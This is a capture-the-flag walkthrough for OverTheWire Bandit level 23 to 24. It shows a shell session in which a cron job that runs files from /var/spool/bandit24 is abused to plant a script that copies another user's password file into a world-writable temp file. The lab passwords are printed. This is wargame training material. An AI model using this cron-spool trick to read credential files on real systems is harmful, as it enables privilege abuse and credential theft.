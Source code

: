 <h1>Bandit 23 &#x2192; Bandit 24 </h1>

<h2 id="level-goal">Level Goal</h2>
<p>A program is running automatically at regular intervals from
<strong>cron</strong>, the time-based job scheduler. Look in <strong>/etc/cron.d/</strong> for
the configuration and see what command is being executed.</p>

<p><strong>NOTE:</strong> This level requires you to create your own first
shell-script. This is a very big step and you should be proud of
yourself when you beat this level!</p>

<p><strong>NOTE 2:</strong> Keep in mind that your shell script is removed once
executed, so you may want to keep a copy around…</p>

<h2 id="commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</h2>
<p>cron, crontab, crontab(5) (use “man 5 crontab” to access this)</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit23@bandit.labs.overthewire.org -p 2220
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

bandit23@bandit:~$ ls
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

If we have a file that is owned by ourself in that directory, it will be executed!

```
bandit23@bandit:~$ mkdir /tmp/mytmp
bandit23@bandit:~$ vim /tmp/mytmp/runme.sh
  #!/bin/bash
  cat /etc/bandit_pass/bandit24 >> /tmp/mytmp/psswrd.txt
bandit23@bandit:~$ touch /tmp/mytmp/psswrd.txt
bandit23@bandit:~$ chmod 777 -R /tmp/mytmp/
bandit23@bandit:~$ cp /tmp/mytmp/runme.sh /var/spool/bandit24/runme.sh
```

And after waiting a minute:

```
bandit23@bandit:~$ cat /tmp/mytmp/psswrd.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

[bandit level 23](23.md)
[bandit level 25](25.md)
